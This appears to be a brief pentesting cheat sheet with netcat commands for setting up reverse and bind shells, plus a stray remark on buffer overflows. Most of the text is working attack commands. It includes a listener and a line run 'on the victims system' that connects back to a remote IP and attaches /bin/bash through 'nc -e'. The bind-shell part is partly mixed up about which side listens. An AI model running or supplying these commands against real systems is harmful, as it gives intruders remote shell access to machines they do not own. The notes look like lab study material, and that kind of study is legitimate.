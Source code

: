 # Reverse shell
Connection from the target to the attacker
//opening port with netcat on my system
nc -nvlp 4444
//or -n skip dns name resolution & verbose
nc -n -v 10.11.0.22 110

//establishing connection on the victims system
nc 192.168.0.6 4444 -e /bin/bash

//just to open connection, and chat
nc -nv 10.11.0.22 4444


# Bind shell
Connection from the attacker to the target  
//opening port with netcat on the target 
nc -nvlp 4444

//establishing connection on my pc
nc 192.168.0.6 4444 -e /bin/bash

# Buffer overflow
Local bo is not intereseting check for remote bo